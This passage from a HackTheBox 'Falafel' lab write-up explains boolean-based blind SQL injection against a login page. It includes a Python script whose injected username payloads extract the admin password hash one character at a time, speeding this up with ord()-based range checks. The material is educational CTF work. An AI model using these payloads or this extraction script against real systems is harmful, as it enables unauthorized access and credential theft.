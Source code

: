 Once we run the script we get the admin users' hash.

![Hash Extracted](/HackTheBox/htb-falafel-writeup-w-o-metasploit/9_auto1.png)

Although this script works, it takes quite some time to run. So I created another script which would perform some extra queries to the database before it checks whether a character is in users' hashs' X position or not.

The first check is to find if the character in X position is an alphabet or not. If so, it is checked if it belongs to [a-f] group or the rest. If it's a hash, it'll always belong to a-f group which is "alpha1" in the below code.
If it's not an alphabet, it's checked if the number belongs to [0-4] group or [5-9].
Once the group is sent back, SQLstring is used to generate payloads for characters in only those groups for X position. This reduces the amount of requests sent to the server, and we extract the hash much faster.

These checks are done using "ord". Ordinal numbers are just decimal numbers. We convert the output of the substring to ord and perform a check if it's greater than 58, ascii(9) = decimal(57), thus checking if the character in that position is an alphabet.

| Numbers (dec hex ascii) | Alphabets (dec hex ascii) |
|-------------------|-------------------|
| ![](/HackTheBox/htb-falafel-writeup-w-o-metasploit/13_ord1.png) | ![](/HackTheBox/htb-falafel-writeup-w-o-metasploit/13_ord2.png) |

Check out `man ascii` to view the entire table.

``` python
import requests


def SQLstring(i,c):
    # We only want 1 password character at a time
    # Final payload will look like (example 1st chars)
    # username:admin' AND substring(password,1,1)='a'
    return "admin' AND substring(password,%s,1)='%s'-- -" % (i,c)


def SQLsplit(i):
    # Checking if the character is an alphabet
    sql = "admin' AND ord(substring(password,%s,1)) > '58'-- -" % i
    payload = {'username':sql, 'password':'abcd'}
    r = requests.post('http://10.10.10.73/login.php', data=payload)
    if "Wrong identification" in r.text:
    # Checking if it's beyond "f"
        sql = "admin' AND ord(substring(password,%s,1)) > '102'-- -" % i
        payload = {'username':sql, 'password':'abcd'}
        r = requests.post('http://10.10.10.73/login.php', data=payload)
        if "Wrong identification" in r.text:
            return "alpha2"
        else:
        # If not beyond "f"
            return "alpha1"
    # Character is a number
    else:
    # Checking if number is less than "5"
        sql = "admin' AND ord(substring(password,%s,1)) < '53'-- -" % i
        payload = {'username':sql, 'password':'abcd'}
        r = requests.post('http://10.10.10.73/login.php', data=payload)
        if "Wrong identification" in r.text:
            return "num1"
        else:
        # If number is greater than 5
            return "num2"


# password could be in hashed format or plaintext
```